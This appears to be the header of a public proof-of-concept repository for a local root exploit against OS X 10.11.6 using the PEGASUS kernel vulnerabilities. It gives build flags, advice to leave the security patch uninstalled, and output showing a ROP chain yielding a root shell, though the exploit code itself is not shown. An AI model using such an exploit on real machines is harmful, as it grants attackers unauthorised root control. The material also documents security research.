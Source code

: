 * Local privilege escalation for OS X 10.11.6 via PEGASUS

 * by Min(Spark) Zheng (twitter@SparkZheng, weibo@蒸米spark)

 * Note:   
         1. If you want to test this exp, you should not install Security Update 2016-001 
            (like iOS 9.3.5 patch for PEGASUS).  
         2. I hardcoded a kernel address to calcuate kslide, it maybe different on your mac.  

 
 * Compile:  
   clang -framework IOKit -framework Foundation -framework CoreFoundation -m32 -Wl,-pagezero_size,0 -O3 exp.m lsym.m -o exp

 * Run the exp:  
    MacBookPro:PEGASUS zhengmin$ ./exp   
    getting kslide...  
    kslide=0x8e00000  
    building the rop chain...  
    exploit the kernel...  
    sh-3.2# whoami  
    root  
    sh-3.2# uname -a  
    Darwin MacBookPro 15.6.0 Darwin Kernel Version 15.6.0: Thu Jun 23 18:25:34 PDT 2016; root:xnu-3248.60.10~1/RELEASE_X86_64 x86_64  


 * Special thanks to proteas, qwertyoruiop, windknown, aimin pan, jingle, liangchen, qoobee, 
   cererdlong, eakerqiu, etc.
 
 * Reference:   
              1. http://blog.pangu.io/cve-2016-4655/  
              2. https://sektioneins.de/en/blog/16-09-02-pegasus-ios-kernel-vulnerability-explained.html  
              3. https://bazad.github.io/2016/05/mac-os-x-use-after-free/  
              4. https://github.com/kpwn/tpwn  
   
